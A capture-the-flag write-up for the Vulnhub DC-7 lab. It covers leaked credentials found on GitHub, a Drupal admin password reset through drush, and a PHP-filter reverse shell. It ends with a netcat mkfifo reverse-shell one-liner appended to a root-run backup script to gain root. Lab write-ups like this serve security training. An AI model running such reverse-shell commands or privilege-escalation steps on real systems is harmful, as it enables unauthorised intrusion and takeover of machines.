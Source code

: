 ```yaml
---
layout: post
title: Vulnhub - DC-7 writeup
date: 2019-08-31 1:55 PM
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/">DC-7</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/DCAU7"> DCAU7</a></h4>

## Nmap

![](images/dc7/nmap.png)

only two ports are open. A SSH service and a HTTP service with a `robots.txt` file present.

***

## HTTP

![](images/dc7/website.png)

We can see a drupal website is running. Let's check out the `robots.txt` entries.

![](images/dc7/robots.png)

There are quite a few entries here. I tried opening all of them but none of them had anything good for us. One thing that I noticed was there was this username in the form of how we write the twitter(mostly) usernames i.e with `@`.

![](images/dc7/username.png)

So I decided to search that name on twitter and found one user.

![](images/dc7/twitter.png)

There was no tweet but we can see there's a link to his `github` profile.

There was only one repository named `staffdb` and in the readme I got the assurance that I am on the right track.

![](images/dc7/repo.png)

I cloned that repository so I can look through the code.

In a file called `config.php` I found credentials for user `dc7user`

![](images/dc7/credentials.png)

`dc7user:MdR3xOgB7#dW`

I tried to login with those credentials but they didn't work.

![](images/dc7/login-fail.png)

But I was able to `SSH` into `dc7user` account.

![](images/dc7/ssh.png)

***

## SSH

In the home directory I found a hidden directory named `.drush`.

> Drush is a command line shell and Unix scripting interface for Drupal. Drush core ships with lots of useful commands for interacting with code like modules/themes/profiles. Similarly, it runs update.php, executes SQL queries and DB migrations, and misc utilities like run cron or clear cache. Developers love the generate command, which jump starts your coding project by writing ready-to-customize PHP and YML files. Drush can be extended by 3rd party commandfiles.

So basically `drush` is used to manage drupal website. After looking around for a while and reading lots of `drush` wiki, I ended up asking [@DCAU7]() for help.

```bash
$ drush upwd admin admin
```

![](images/dc7/upwd.png)

__NOTE__: Make sure you are in `/var/www/html` directory when you are running any command related to drush.

Once the password was change I was able to login in `drupal` with credentials `admin:admin`.

![](images/dc7/drupal-login.png)

I downloaded the `php` enabling filter from [Drupal/php](https://www.drupal.org/project/php). Then in `Extend` tab I clicked on the `Install new module` button and uploaded this. Once it is installed I was able to enable PHP.

![](images/dc7/enable-php.png)

Once it was enabled I went to `Content -> Add content -> basic page` and then select the `Text format` to be `PHP code` and copy paste the reverse shell code.

![](images/dc7/code.png)

And hit the preview button while the listener is running. This will give you the reverse shell.

![](images/dc7/rev.png)

__NOTE__: If you had any issue in getting a reverse shell then follow [164-drupal-to-reverse-shell](https://www.sevenlayers.com/index.php/164-drupal-to-reverse-shell)

***

Before we move on I would like to explain the reason for getting the reverse shell when we already have a SSH access.

In the `/home/dc7user` we can see a file named `mbox` which contains some emails.

![](images/dc7/mbox.png)

In this we can see a script named `backups.sh`.

![](images/dc7/cron.png)

This script is responsible for backups of sql-dump from drupal. But the interesting part is the permissions and group of this file.

![](images/dc7/perms.png)

This script is running as `root` and `www-data` is in the same group meaning if we can get a reverse shell we'll be `www-data` and then we'll be able to edit this backups.sh file which runs as root giving us a root shell or root power.

***

Run:

```bash
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.1 4444 >/tmp/f" >> backups.sh
```

and then started my listener and waited for a while.

![](images/dc7/root-shell.png)

And then get that DAMN flag.

![](images/dc7/root.png)

__DAMN!!!! My name is in the root flag 😱😱😱😱😱__

***

This is really nice machine, basically this box shows us how people are dumb enough to leave their credentials/keys in the code they push to github or how they reuse there password for multiple platforms.

Thanks to [@DCAU7](https://twitter.com/DCAU7) for this awesome addition to the awesome series.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
